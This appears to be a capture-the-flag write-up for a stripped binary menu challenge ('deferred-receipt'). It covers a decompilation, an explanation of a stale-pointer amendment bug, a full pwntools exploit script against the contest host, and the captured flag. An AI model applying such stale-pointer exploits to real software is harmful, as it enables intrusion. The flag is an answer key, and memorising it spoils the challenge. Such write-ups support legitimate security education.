



# 『Gate 7』



# 『The challenge』



And the chall: [chall-download](./src/dis.tar.gz)

## 『Highlight vulnerability and parts of interesting』

Absolute Hating :>. Strip funfact... so i open using `binary ninja` but turn out:



and i check using my own technique -> running main and found out where is the main:

```asm
00408864    int64_t sub_408864(int64_t* arg1 @ rbp, int32_t* arg2 @ r15)

00408867        sub_475790(arg2)
0040886f        uint64_t ssp
0040886f        sub_49c0a0(arg1, ssp)
00408884        int32_t* var_8 = arg2
004088a3        int64_t* var_28 = arg1
004088be        void* fsbase
004088be        int64_t rax = *(fsbase + 0x28)
004088d3        sub_413d60(data_4d1610, 0, 2, 0)
004088d3        
004088e3        while (true)
004088e3        label_4088e3:
004088e3            sub_413bc0("\n1. Create public receipt\n2. Queue amendment\n3. Cancel public "
004088e3            "receipt\n4. Create sealed receipt\n5. Process queue\n6. Export sealed receipt\n"
004088e3            "7. Exit")
004088f3            int32_t var_4c
004088f3            int32_t rax_2 = sub_408d60("Choice: ", 0xa, &var_4c)
004088f3            
004088fa            if (rax_2 s< 0)
004088fa                break
004088fa            
00408907            int32_t var_44
00408907            
00408907            if (rax_2 != 0 && var_4c u<= 7)
00408918                switch (var_4c)
00408bd4                    case 1
00408bd4                        sub_408ed0(1)
00408bd9                        continue
00408b16                    case 2
00408b16                        int32_t i
00408b16                        
00408b16                        if (data_4d31e0 != 0)
00408c0c                            sub_413bc0("The amendment queue is full.")
00408c11                            continue
00408b16                        else if (sub_408d60("Public receipt ID: ", 0xa, &i) == 1
00408b16                                && sub_408d60("Amendment (hex): ", 0x10, &var_44) == 1)
00408b5e                            int64_t rax_23 = 0
00408b5e                            
00408b91                            while (*(&data_4d3220 + (rax_23 << 2)) != 1
00408b91                                    || i != *(&data_4d3200 + (rax_23 << 2)))
00408b70                                rax_23 += 1
00408b70                                
00408b78                                if (rax_23 == 8)
00408b78                                    goto label_408c3f
00408b78                            
00408ba5                            data_4d31e0 = 1
00408bb4                            data_4d31e8 = (sx.q(rax_23.d) << 4) + 0x4d324c
00408bbf                            data_4d31f0 = var_44
00408bc5                            sub_413bc0("Amendment queued.")
00408b78                            continue
00408be7                        sub_413bc0("Invalid input.")
00408bec                        continue
00408a92                    case 3
00408a9a                        if (sub_408d60("Public receipt ID: ", 0xa, &var_44) != 1)
00408be7                            sub_413bc0("Invalid input.")
00408bec                            continue
00408bec                        
00408ab8                        for (int64_t i_1 = 0; i_1 != 8; i_1 += 1)
00408ac2                            int64_t rcx_3 = sx.q(i_1.d)
00408ac2                            
00408ad1                            if (*(&data_4d3220 + (i_1 << 2)) == 1
00408ad1                                    && var_44 == *(&data_4d3200 + (i_1 << 2)))
00408ae1                                *(&data_4d3220 + (rcx_3 << 2)) = 0
00408af3                                *(&data_4d3240 + (rcx_3 << 4)) = zx.o(0)
00408afe                                *(&data_4d3200 + (rcx_3 << 2)) = 0
00408b05                                sub_413bc0("Public receipt cancelled.")
00408b0a                                goto label_4088e3
00408b0a                        
00408c3f                    label_408c3f:
00408c3f                        sub_413bc0("No such public receipt.")
00408c44                        continue
00408a77                    case 4
00408a77                        sub_408ed0(2)
00408a7c                        continue
00408a2d                    case 5
00408a2d                        if (data_4d31e0 == 0)
00408c1d                            sub_413bc0("The amendment queue is empty.")
00408c22                            continue
00408a2d                        else
00408a47                            *data_4d31e8 = data_4d31f0
00408a49                            data_4d31e0 = 0
00408a53                            data_4d31e8 = 0
00408a5e                            data_4d31f0 = 0
00408a68                            sub_413bc0("Amendment processed.")
00408a6d                            continue
00408956                    case 6
0040895e                        if (sub_408d60("Sealed receipt ID: ", 0xa, &var_44) != 1)
00408be7                            sub_413bc0("Invalid input.")
00408bec                            continue
00408bec                        
00408968                        int64_t rax_11 = 0
00408968                        
00408999                        while (true)
00408999                            if (*(&data_4d3220 + (rax_11 << 2)) == 2
00408999                                    && var_44 == *(&data_4d3200 + (rax_11 << 2)))
004089ae                                if (*((sx.q(rax_11.d) << 4) + 0x4d324c) != 0x4c414553)
00408c2e                                    sub_413bc0("Receipt not approved.")
00408c33                                    break
00408c33                                
004089c2                                char* rax_12 = sub_413990("/flag", "r")
004089c7                                int32_t var_5c_1 = 0xa
004089c7                                
004089d5                                if (rax_12 == 0)
00408c66                                    sub_413bc0("Export unavailable.")
00408c6b                                    break
00408c6b                                
004089f5                                while (true)
004089f5                                    int32_t rax_13 = sub_415eb0(rax_12)
004089f5                                    
004089ff                                    if (rax_13 == 0xffffffff)
004089ff                                        break
004089ff                                    
004089e9                                    var_5c_1 = rax_13
004089ed                                    sub_415fd0(rax_13.b, data_4d1610)
004089ed                                
00408a06                                if (var_5c_1 != 0xa)
00408a14                                    sub_415fd0(0xa, data_4d1610)
00408a14                                
00408a1c                                sub_413550(rax_12)
00408a21                                break
00408a21                            
00408978                            rax_11 += 1
00408978                            
00408980                            if (rax_11 == 8)
00408c50                                sub_413bc0("No such sealed receipt.")
00408c55                                break
00408c55                        
00408980                        continue
00408918                    case 7
00408918                        break
00408bfb            sub_413bc0("Invalid choice.")
00408bfb        
00408925        *(fsbase + 0x28)
00408925        
0040892e        if (rax == *(fsbase + 0x28))
00408944            return 0
00408944        
00408c5a        sub_451bc0()
00408c5a        noreturn
```

## 『Solving Challenge』
> solve by Lylera

After i know where the main is, i read something interest in here:

```asm
00408999                        while (true)
00408999                            if (*(&data_4d3220 + (rax_11 << 2)) == 2
00408999                                    && var_44 == *(&data_4d3200 + (rax_11 << 2)))
004089ae                                if (*((sx.q(rax_11.d) << 4) + 0x4d324c) != 0x4c414553)
00408c2e                                    sub_413bc0("Receipt not approved.")
00408c33                                    break
00408c33                                
004089c2                                char* rax_12 = sub_413990("/flag", "r")
004089c7                                int32_t var_5c_1 = 0xa
004089c7                                
004089d5                                if (rax_12 == 0)
00408c66                                    sub_413bc0("Export unavailable.")
00408c6b                                    break
```

so it need some argument in here. But how to input the argument? Through the first one:

```asm
00408b16                    case 2
00408b16                        int32_t i
00408b16                        
00408b16                        if (data_4d31e0 != 0)
00408c0c                            sub_413bc0("The amendment queue is full.")
00408c11                            continue
00408b16                        else if (sub_408d60("Public receipt ID: ", 0xa, &i) == 1
00408b16                                && sub_408d60("Amendment (hex): ", 0x10, &var_44) == 1)
00408b5e                            int64_t rax_23 = 0
00408b5e                            
00408b91                            while (*(&data_4d3220 + (rax_23 << 2)) != 1
00408b91                                    || i != *(&data_4d3200 + (rax_23 << 2)))
00408b70                                rax_23 += 1
00408b70                                
00408b78                                if (rax_23 == 8)
00408b78                                    goto label_408c3f
00408b78                            
00408ba5                            data_4d31e0 = 1
00408bb4                            data_4d31e8 = (sx.q(rax_23.d) << 4) + 0x4d324c
00408bbf                            data_4d31f0 = var_44
00408bc5                            sub_413bc0("Amendment queued.")
00408b78                            continue
00408be7                        sub_413bc0("Invalid input.")
00408bec                        continue
```

in this function you will ask the hex one. So input `4c414553` for function no 6. So the step:

1 regist (you will get pub_id) -> 2 input hex via your regist pub_id -> 3 free it -> 4 regist again using `SEAL` -> 5 processing the result (this one is reverse technique) -> 6 check if your hex is correct. That's all (jeez...)

```py
from pwn import *

elf = context.binary = ELF('./deferred-receipt')
# p = process()
p = remote('deferred-receipt.wolvctf-2026.kctf.cloud', 1337)

def create():
    p.sendlineafter('Choice: ', '1')
    p.recvuntil('Receipt ID: ')
    return int(p.recvline().strip())

def queue_amendment(pub_id):
    p.sendlineafter('Choice: ', '2')
    p.sendlineafter('Public receipt ID: ', str(pub_id).encode())
    p.sendlineafter('Amendment (hex): ', '4c414553')

def cancel(pub_id):
    p.sendlineafter('Choice: ', '3')
    p.sendlineafter('Public receipt ID: ', str(pub_id).encode())

def create_sealed():
    p.sendlineafter('Choice: ', '4')
    p.recvuntil('Receipt ID: ')
    return int(p.recvline().strip())

def process_queue():
    p.sendlineafter('Choice: ', '5')

def export(sealed_id):
    p.sendlineafter('Choice: ', '6')
    p.sendlineafter('Sealed receipt ID: ', str(sealed_id).encode())
    data = p.recvuntil('Choice: ', timeout=3)
    print(data.decode(errors='replace'))
    return data

pub = create()
log.info(f'public id = {pub}')

queue_amendment(pub)
cancel(pub)

sealed = create_sealed()
log.info(f'sealed id = {sealed}')

process_queue()
export(sealed)

p.sendline('7')
p.close()
```

### 『Flag』

```
wctf{deferred_receipt_2b6f4058047e5aeb8e1a75aa}
```

### 『Reference』

Absolute Hating this chall :>